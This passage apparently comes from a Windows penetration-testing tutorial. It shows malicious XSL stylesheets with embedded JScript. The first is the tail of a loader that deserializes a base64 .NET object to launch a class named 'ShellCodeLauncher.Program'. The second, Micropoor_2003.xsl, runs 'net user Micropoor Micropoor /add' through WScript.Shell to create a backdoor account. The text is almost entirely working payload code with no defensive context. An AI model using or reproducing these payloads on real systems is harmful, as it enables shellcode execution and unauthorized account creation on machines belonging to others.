     var entry_class = 'ShellCodeLauncher.Program'; 
    
    try {
    
    setversion();
    
    var stm = base64ToStream(serialized_obj);
    
    var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
    
    var al = new ActiveXObject('System.Collections.ArrayList');
    
    var d = fmt.Deserialize_2(stm);
    
    al.Add(undefined);
    
    var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class); 
    
    } catch (e) {
    
    debug(e.message);
    
    } 
    
    ]]> </ms:script>
    
    </stylesheet>
    
        

**Micropoor\_2003.xsl:**

    <?xml version='1.0'?>
    
    <stylesheet
    
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas‐microsoft‐com:xslt"
    
    xmlns:user="placeholder"
    
    version="1.0">
    
    <output method="text"/>
    
    <ms:script implements‐prefix="user" language="JScript">
    
    <![CDATA[ 
    
    var r = new ActiveXObject("WScript.Shell").Run("net user Micropoor Micropoor /add");
    
    ]]> </ms:script>
    
    </stylesheet>
    
        

* * *